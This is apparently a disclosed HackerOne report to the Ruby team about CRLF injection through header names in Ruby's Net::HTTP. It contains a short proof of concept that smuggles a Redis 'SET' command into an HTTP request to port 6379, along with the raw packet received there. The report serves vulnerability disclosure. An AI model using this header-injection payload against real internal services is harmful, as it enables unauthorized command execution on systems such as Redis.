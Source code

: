 # Header CRLF Injection in Ruby Net::HTTP

## Report Details
- **Report ID**: 1718757
- **URL**: https://hackerone.com/reports/1718757
- **State**: Closed
- **Severity**: none
- **Submitted**: 2022-10-01T02:12:04.360Z
- **Disclosed**: 2023-05-04T01:40:31.030Z

## Reporter
- **Username**: leixiao
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
There is a Header CRLF Injection vulnerability in Ruby Net::HTTP.
When I run the following code:
```
require 'net/http'

http = Net::HTTP.new('127.0.0.1', 6379)
headers = {
  "test\r\nSET VULN POC \r\n" => "test",
}
resp, data = http.get("/", headers)
```
The service on port 6379 will receive the following packet:
```
GET / HTTP/1.1
Test
set vuln poc
: test
Accept-Encoding: gzip;q=1.0,deflate;q=0.6,identity;q=0.3
Accept: */*
User-Agent: Ruby
Connection: close
Host: 127.0.0.1:6379
```
This means that if an attacker can control the header name, he can inject arbitrary content into the HTTP request. This is very dangerous.

## Impact

If port 6379 is running the Redis service, the attacker can directly execute the Redis command. So this vulnerability can be used to attack internal services like Redis etc.
{F1963847}

## Attachments
- image.png

